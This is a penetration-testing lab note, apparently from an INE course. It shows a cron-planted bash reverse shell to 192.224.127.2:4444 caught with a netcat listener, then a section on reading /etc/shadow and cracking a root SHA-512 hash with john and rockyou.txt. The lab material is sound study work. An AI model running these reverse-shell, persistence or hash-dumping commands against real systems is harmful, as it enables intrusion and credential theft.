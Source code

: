 ```bash
-bash: connect: Connection refused
-bash: /dev/tcp/192.224.127.2/4444: Connection refused
student@demo:~$ /bin/bash -c 'bash -i >& /dev/tcp/192.224.127.2/4444 0>&1'
/bin/bash: connect: Connection refused
/bin/bash: /dev/tcp/192.224.127.2/4444: Connection refused
student@demo:~$ /bin/bash -c 'bash -i >& /dev/tcp/192.224.127.2/4444 0>&1'
/bin/bash: connect: Connection refused
/bin/bash: /dev/tcp/192.224.127.2/4444: Connection refused
student@demo:~$ /bin/bash -c 'bash -i >& /dev/tcp/192.224.127.2/4444 0>&1'
student@demo:~$ crontab -l
* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.224.127.2/4444 0>&1'
student@demo:~$ exit
logout
Connection to 192.224.127.3 closed.

┌──(root㉿INE)-[~]
└─# nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.224.127.2] from (UNKNOWN) [192.224.127.3] 43704
bash: cannot set terminal process group (226): Inappropriate ioctl for device
bash: no job control in this shell                                                 
student@demo:~$                                                                 
```
### **7-Dumping & Cracking Linux Password Hashes**
- Linux has multi-user support and as a result, multiple users can access the system simultaneously. This can be seen as both an advantage and disadvantage from a security perspective, in that, multiple accounts offer multiple access vectors for attackers and therefore increase the overall risk of the server. 
- All of the information for all accounts on Linux is stored in the passwd file located in: /etc/passwd 
- We cannot view the passwords for the users in the passwd file because they are encrypted and the passwd file is readable by any user on the system. 
- All the encrypted passwords for the users are stored in the shadow file. it can be found in the following directory: /etc/shadow 
- The shadow file can only be accessed and read by the root account, this is a very important security feature as it prevents other accounts on the system from accessing the hashed passwords
- The shadow file gives us information in regards to the hashing algorithm that is being used and the password hash, this is very helpful as we are able to determine the type of hashing algorithm that is being used and its strength. We can determine this by looking at the number after the username encapsulated by the dollar symbol ($)

| Value | Hashing Algorithm |
| ----- | ----------------- |
| $1    | MD5               |
| $2    | Blowfish          |
| $5    | SHA-256           |
| $6    | SHA-512           |
After elevating your privileges
```bash
root@ahmed:/home/ahmed# cat /etc/shadow       
root:$6$VhinDVzmbiLkCT6g$uTsJMpPf/WQq1CJajBcd9ULRteCNq/joezX32NX6.MUBU5.TO1olHcCwCQgK8WiDtdJP.ZLlyGW1LUhBAIsaM/:20258:0:99999:7:::
```
the root password hash is SHA-512
decrypting the hash using john
```bash
root@ahmed:/usr/share/wordlists# john --format=sha512crypt hash rockyou.txt 
Created directory: /root/.john
Warning: invalid UTF-8 seen reading rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 SSE2 2x])
```